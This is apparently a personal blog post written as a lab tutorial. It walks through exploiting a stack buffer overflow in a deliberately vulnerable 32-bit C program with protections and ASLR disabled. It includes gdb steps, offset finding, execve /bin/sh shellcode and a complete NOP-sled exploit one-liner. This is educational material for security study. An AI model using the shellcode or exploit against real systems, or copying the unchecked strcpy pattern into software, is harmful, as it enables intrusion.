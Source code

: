 ```yaml
---
title: "Buffer Overflow 101"
description: Here is a demo of all shortcodes available in Hugo.
date: 2025-03-26
tags: ["buffer overflow", "exploit development", "security", "vulnerability"]
categories: ["Cybersecurity", "Exploitation"]
summary: This post covers the basics of creating and exploiting a buffer overflow vulnerability.
toc: true
---
```


<script src="https://cdn.jsdelivr.net/npm/medium-zoom@1.0.6/dist/medium-zoom.min.js"></script>
<script>
  document.addEventListener('DOMContentLoaded', function () {
    mediumZoom('article img'); // Targets all images inside articles
  });
</script>

<style>
.toc {
  font-size: 0.9em; /* Reduce the font size */
  width: auto; /* Keep the width dynamic */
  padding: 8px; /* Add some padding for spacing */
  position: relative; /* Ensure it stays in its original position */
  margin-left: 0; /* Keep it aligned to the left */
}

.toc a {
  font-size: 0.85em; /* Reduce the font size of links */
  line-height: 1.4; /* Adjust line height for better readability */
}
</style>

## Background
- A bit of background on buffer overflows: Buffer overflows occur when a program attempts to write more data into a buffer than it has allocated for it. This can lead to overwriting adjacent memory locations, potentially resulting in code execution or other security vulnerabilities.
- Recently, in one of my lectures, I was tasked with simulating a buffer overflow vulnerability, and I would like to share my approach to simulating this vulnerability.

## C Program used for the Simulation

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char buffer[256];
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
    return 0;
}
```

- The above binary is vulnerable because of the use of `strcpy`, which fails to check for buffer overflow. Since `strcpy` copies data without ensuring the destination buffer has enough space, an attacker can exploit this to overwrite adjacent memory. PS: for such applications always use `strncpy`.


## Compilation
```c
gcc -fno-stack-protector -z execstack -no-pie -m32 -mpreferred-stack-boundary=2 program.c -o program
```
- <u>_**mpreferred-stack-boundary**_</u>: This is particularly relevant for older or specific ABI requirements, as many modern systems use a higher boundary. Basically in my case, I had to use this to ensure that the stack is aligned to 4 bytes as im compiling to a 32 bit binary.
- <u>_**fno-stack-protector**_:</u> Disables stack protection also known as canaries allowing buffer overflow to occur.
- <u>_**execstack**_:</u> This flag marks the stack as executable, allowing you to place and run code from the stack.
- <u>_**no-pie**_:</u> Disabling PIE (Position Independent Executable) means the binary loads at a fixed address, which simplifies things for certain testing scenarios (like predictable addresses for shellcode).
- <u>_**m32**_</u>: This flag compiles your code as a 32-bit binary.

Also make sure to disable ASLR using the below command,

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

This makes sure that the addresses are not randomized and are predictable.

## Reconnaissance
![Checksec Image](/images/Screenshot_2025-03-26_10-47-14.png)

- <u>_**PIE**_</u>: No PIE, meaning that the binary is not built as a Position Independent Executable, which results in a fixed memory layout each time the program runs.
- <u>_**Stack**_</u>: No Canary found meaning we can easily perform buffer overflow as there are no protections also it is executable allowing for shellcode to be executed.

## Performing the attack

1. <u>**Basic Exploration**</u>  
   First, I'll disassemble the `main` function and fill the buffer to find out where the buffer's address is stored in the stack.

    ![Buffer Address](/images/Screenshot_2025-03-20_08-04-13.png)

    Now from the above we will first try to put a breakpoint at something after the **puts@plt** which is at `0x8049050` so that we can see how the buffer fills upon filling with input.

2. <u>**Filling the Buffer**</u>

    ![Filling Buffer](/images/Screenshot_2025-03-21_00-37-48.png)

    Command: `r $(python2 -c 'print "A"*256')`

    In the above image upon running this we can fill the buffer which can accommodate `256` bytes of characters using python2. By doing so we can find out whats the starting address of the buffer which will be used to craft the exploit.

    Running the below command gives us a better clarity,

    Command: `x/256x $esp`

    ![Inspecting Buffer](/images/Screenshot_2025-03-21_00-38-01.png)

    From this image we can see that the buffer starts filling from `0xffffcfa4` with ‘A’ (0x41)

3. <u>**Offset Calculation**</u>

    Now lets find till where we must give input so that we can overwrite the EIP (current instruction register) . From the below we see that we overwrote the EIP with `‘qaac’`.

    Command: `cyclic 300`

    ![Cyclic 300](/images/Screenshot_2025-03-21_00-39-34.png)

    Now finding the offset using the below command,

    Command: `cyclic -l qaac`

    ![Cyclic finder](/images/Screenshot_2025-03-21_00-39-51.png)

    Thus we found that the offset needed is `264` after which the next 4 bytes given will overwrite the EIP with that value.

    Command: `r $(python2 -c 'print "A"*264 + "BBBB"')`

    We can confirm this with the below image where after `264`, I have given `‘BBBB’` as input which has been overwritten onto the EIP.

    ![EIP overwrite](/images/Screenshot_2025-03-21_00-43-47.png)

4. <u>**Writing the Exploit**</u>

    Now we have the following details:

     **Buffer starting address**: `0xffffcfa4`  
     **Offset**: `264`

    Next, we need malicious code. I’ll be using a shellcode that spawns a shell from the binary, which can be exploited by an attacker to compromise the system.

    **Shellcode used**:
    ```bash
    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80
    ```

    The above is a 23 byte shell code 

    So now to write the exploit we need to follow the below structure,


    - First we need a **NOP** (NO operation sled) which provides a safe landing zone for the return address. Basically making sure that execution slides down NOPs to reach the shellcode . For this lets take a value of `100` NOPs (experimentally found).
    - Next we put the 23 byte shell code.
    - Next since the offset was 264 we fill the remaining (264 – 23 – 100 = `141`) with padding, so here Ive padded with ‘A’
    - Next we write the address which we want to overwrite on the EIP
    - In this the actual return stack address is `0xffffcfa4`, however we want to point it to an address which is somewhere within the NOP sled so it can slide to the shellcode. Hence from the below image ill take the address `0xffffd0c0` which is filled with /x90 which are NOPs so that it can slide execution into the shellcode.<br><br>
    
    The stack address is located higher in memory, as shown below:

    ![Image with NOP slide](/images/Screenshot_2025-03-21_17-21-21.png)

    Thus, we can craft the exploit as follows:

    ```bash
    ./program $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*100 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + b"A"*141 + b"\xc0\xd0\xff\xff")')
    ```

    - The address `0xffffd0c0` has been written in little endian hence `\xc0\xd0\xff\xff`.
    - NOP in hex is `\x90`.<br><br>
    Below is an image which shows the attack being successful and spawing a shell which can be used by the attacker for manipulating the system.<br><br>

    ![Attacked](/images/Screenshot_2025-03-21_17-25-56.png)

    BOOM! We have successfully exploited the buffer overflow vulnerability and spawned a shell.

